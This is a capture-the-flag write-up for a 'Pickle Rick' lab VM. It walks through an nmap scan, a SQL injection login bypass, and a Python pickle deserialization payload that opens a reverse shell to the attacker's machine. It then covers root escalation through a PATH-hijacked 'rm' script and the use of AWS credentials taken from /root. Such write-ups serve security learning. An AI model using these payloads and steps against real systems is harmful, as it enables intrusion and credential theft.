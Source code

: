 ```yaml
---
description: Yes, the icon is a cucumber
---
```


# 🥒 Pickle Rick

## Description

> Rick has turned himself into a pickle, can you find him before its too late...
>
> Download: [https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link](https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link)
>
> Alternative Download Link: [https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link](https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link)
>
> 7z Password: \&y9PBYf8gZ^996s9

## TL;DR

* Scan victim machine with nmap to find http running on port 5000
* The website allows uploading of pickle files, upload a pickle RCE reverse shell payload
* Privesc from sudo /opt/clean\_pickle.sh, replacing PATH env to a dir containing a file named 'rm', which creates a shell as root
* Get aws creds from /root dir
* Login to aws using aws cli and list the files in the storage, flag is in the container.

## Solution

### Setup

Unzipping the 7zip file with the password given, we are returned with a `pickle-shop.ova` file which we can open as a virtual machine in VMWare.

After opening it, we start the virtual machine and we are prompted with a login screen. Since we don't know the password, we cannot login.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>Login Screen</p></figcaption></figure>

Let's treat this as a hackthebox kind of challenge. We will open an attacker vm, configure both machines to be in the same network, then nmap the victim machine to see what ports are open.

To configure both vms to be in the same network in VMWare, we have to go to the **VM tab > Settings > Network Adapter**, then select **Custom > VMnet0**. Do the same for the attacker machine.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Network Config</p></figcaption></figure>

Now the attacker and victim machines are in the same network, we can run `ip addr` on the attacker machine to check the network we are in.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>ip address</p></figcaption></figure>

For me, my machine's ip address is `192.168.10.133` and it is in the `192.168.10.0.24` network.

To find the ip address of the victim machine, we can just do a ping sweep of the network by running `nmap -sP 192.168.10.1-255`. This command tells us which hosts are up.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>pickle-shop ip addr</p></figcaption></figure>

In my case, the victim's machine ip address is `192.168.10.142`. We now scan for open ports and their services by running `nmap -sC -sV -T4 -p- 192.168.10.142`.

<details>

<summary>nmap result</summary>

```
tarting Nmap 7.92 ( https://nmap.org ) at 2023-04-17 11:26 EDT
Nmap scan report for pickle-shop (192.168.10.142)
Host is up (0.11s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.10.6
|     Date: Mon, 17 Apr 2023 15:28:48 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1461
|     Connection: close
|     <html>
|     <head>
|     <title>Login Page</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     text-align: center;
|     font-size: 2em;
|     margin-top: 50px;
|     form {
|     display: inline-block;
|     margin-top: 50px;
|     padding: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     box-shadow: 2px 2px 5px #ccc;
|     input[type="text"],
|     input[type="password"] {
|     padding: 10px;
|     font-size: 1.2em;
|     width: 100%;
|     margin-bottom: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     input[type="submit"] {
|     padding: 10px 20px;
|     font-size: 1.2em;
|     background-color: lightblue;
|     color: white;
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.92%I=7%D=4/17%Time=643D65B0%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,664,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.10\.6\r\nDate:\x20Mon,\x2017\x20Apr\x202023\x2015:28:48\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:01461\r\nConnection:\x20close\r\n\r\n<html>\n\n<head>\n\x20\x20<title>L
SF:ogin\x20Page</title>\n\x20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\
SF:x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0h1\x20{\n\x20\x20\x20\x20\x20\x20font-size:\x202em;\n\x20\x20\x20\x20\
SF:x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20form\
SF:x20{\n\x20\x20\x20\x20\x20\x20display:\x20inline-block;\n\x20\x20\x20\x
SF:20\x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20\x20\x20padding:\x2020p
SF:x;\n\x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#ccc;\n\x20\x20\
SF:x20\x20\x20\x20border-radius:\x205px;\n\x20\x20\x20\x20\x20\x20box-shad
SF:ow:\x202px\x202px\x205px\x20#ccc;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0input\[type=\"text\"\],\n\x20\x20\x20\x20input\[type=\"password\"\]\x2
SF:0{\n\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x20
SF:font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20width:\x20100%;\n\x20\x2
SF:0\x20\x20\x20\x20margin-bottom:\x2020px;\n\x20\x20\x20\x20\x20\x20borde
SF:r:\x201px\x20solid\x20#ccc;\n\x20\x20\x20\x20\x20\x20border-radius:\x20
SF:5px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20input\[type=\"submit\"\]\x20
SF:{\n\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\x20\x20\x20\
SF:x20\x20font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20background-color:
SF:\x20lightblue;\n\x20\x20\x20\x20\x20\x20color:\x20white;\n\x20\x20\x20\
SF:x20\x20")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//D
SF:TD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://www
SF:\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20con
SF:tent=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<tit
SF:le>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20
SF:<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('RTSP
SF:/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20exp
SF:lanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax\x
SF:20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n
SF:");
MAC Address: 00:0C:29:80:47:CE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.93 seconds
```

</details>

The results show that http is being hosted on port `5000`. Let's visit it through a web browser.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

We find that it is a simple login page. Looking at the source code doesn't return any useful info, so let's perform the usual ritual of trying SQL Injection.

Inputting `"` as the username returns an error message 'why u break my website smh :crying emoji:!'.

We can try the generic payload `"or"1"="1`that returns `true` for logging in, but another error message is returned 'Hacker Detected :skull: x7, mai geh siao, try harder leh'. It seems that this challenge creator is a hard sadist and included a bunch of words in his list of nono words :man\_facepalming::man\_facepalming::man\_facepalming:.

After trying different payloads, the simplest payload that bypasses the login is `"or"` for the username and password.

Now we are logged in and we can upload a pickle :cucumber:.

### Pickle RCE

We know the generic pickle insecure deserialization to RCE, so it is most likely it in this case.

I always refer to this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for python pickle RCE.

So we create our own python pickle serializer according to the article and create a payload that creates a reverse shell.

{% tabs %}
{% tab title="pickle.py" %}
```python
import base64
import codecs
import pickle

class RCE:
    def __reduce__(self):
        import os
        cmd = ("""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.133",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'""")
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())

with open('pickle','wb') as f: f.write(pickled)
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

Start a netcat listener, upload the pickle file, and we have a shell!

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>shell</p></figcaption></figure>

### Privesc

The first thing I tried to run is `sudo -l` to check what commands I could run with sudo privilege.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>sudo -l</p></figcaption></figure>

This states that we can run `/opt/clean_pickle.sh` with root privileges without needing a password. Let's check what is in `clean_pickle.sh`.

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>clean_pickle.sh</p></figcaption></figure>

The bash script uses runs `rm` without an absolute path. What this means is that instead of running `/usr/bin/rm -r ...`, it just runs `rm -r ...`.

This is vulnerable to **Command Forgery**. We abuse this by creating our own `rm` bash script under any directory, in this case we chose the `/tmp` directory. The `rm` file should contain:

```bash
#!/bin/bash
/bin/bash
```

This is to get a shell as root when root executes this `rm` bash script.

Run `chmod 777 /tmp/rm` to make it executable.

Now we can run `sudo PATH=/tmp:$PATH /opt/clean_pickle.sh` to run `clean_pickle.sh` as root, with the modified `PATH` environment variable to where our `rm` resides.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>privesc</p></figcaption></figure>

And now we have root!

### Pivoting to Cloud

Looking at `/root`, we see there is a `.aws` directory and a `credentials` file inside.

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>aws creds</p></figcaption></figure>

We can sign in to aws cli using  this credential. I modified `~/.aws/credentials` to add the id and key (you will have to install aws cli first). You can also run `aws configure` and input the id and key appropriately.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>local aws creds</p></figcaption></figure>

Now time to find where the flag actually is.

### Finding the flag

The most common enumeration method for aws cloud is to list the buckets the account have access to. We can run `aws s3api list-buckets` to list the buckets.

The aws key is now sadly revoked and invalid, so I can't show the last few steps.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>failure</p></figcaption></figure>

The flag is in one of the buckets and you can just use aws cli to get it.

Unfortunately, there was no pickle rick at all :disappointed\_relieved:
